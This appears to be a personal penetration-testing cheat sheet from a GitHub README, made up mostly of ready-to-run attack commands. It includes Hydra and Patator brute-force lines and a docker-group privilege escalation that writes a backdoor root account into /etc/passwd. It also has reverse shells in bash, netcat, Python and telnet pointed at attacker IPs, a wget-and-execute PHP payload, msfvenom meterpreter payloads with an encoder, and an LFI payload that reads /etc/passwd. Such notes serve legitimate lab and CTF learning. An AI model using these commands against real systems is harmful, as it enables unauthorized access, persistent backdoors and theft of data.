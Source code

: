 ### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
### Get interactive bash shell using OS.System
```
echo os.system('/bin/bash')
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

### Poster
> A developer tool for interacting with web services and other web resources that lets you make HTTP requests, set the entity body, and content type. 

## Brute-force techniques
### THC Hydra
```bash
hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644

# ssh brute force
hydra -l sunny -p sunday ssh://192.168.172.3:22
```
### Patator
https://www.ihacklabs.com/en/brute-force-with-patator/

```bash
patator.py ssh_login host=10.0.0.1 user=FILE0 password=FILE1 0=users.txt 1=passwords.txt -x ignore:mesg=’Authentication failed.’
```
## Privilege Escalation Techniques
[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Offensive Bash Scripts](https://github.com/6odhi/myarsenal/blob/master/README.md)
### User part of docker group   
You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash
```

adds backdoor toor:password
```bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
``` 
## Reverse shell techniques
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
### Few more reverse shell techniques
courtesy: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

```bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
### Reverse shell payload using msfvenom
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.172.4 lport=443 -f raw

# widows asp reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.172.4 lport=2222 -e x86/shikata_ga_nai -f asp > met.asp 

# jsp reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.172.4 lport=2222 -f raw > cmd.jsp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.172.4 LPORT=2222 -f war > shell.war
```
## Miscellaneous Techniques
### Checking SUID files available in the system by running
> SUID(Set owner User ID up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. In simple words users will get file ownerâs permissions as well as owner UID and GID when executing a file/program/command
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm +4000 2> /dev/null
```

Set and Unset SUID on files:
```bash
$ sudo chmod u+s /usr/bin/whoami # set SUID for whoami

$ sudo chmod u-s /usr/bin/whoami # Unset SUID
```
### Port and Host IP Scanning without NMap/Permissions
[No Nmap, No Permissions, No Problem](https://www.lanmaster53.com/2010/04/16/no-nmap-no-permissions-no-problem/)
### Escaping restricted shell
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=2
### Payload collection
https://github.com/swisskyrepo/PayloadsAllTheThings
### Bypass system security restrictions
https://gtfobins.github.io/

## *Nix Commands
### tr
> tr is an UNIX utility for translating, or deleting, or squeezing repeated characters. It will read from STDIN and write to STDOUT.

https://www.thegeekstuff.com/2012/12/linux-tr-command/

## Well known vulnerabilities
### LFI

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

https://highon.coffee/blog/lfi-cheat-sheet/

vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd


## Kali tools
### binwalk
> Binwalk is a tool for searching a given binary image for embedded files and executable code. Specifically, it is designed for identifying files and code embedded inside of firmware images.
```bash
binwalk <img_path>

# extract images recursively
binwalk -Me <image_path>
```
### padBuster
https://youtu.be/3VxZNflJqsw?t=1385

## Other tools
### Auditing RPMs and OS packages
https://vulners.com/audit


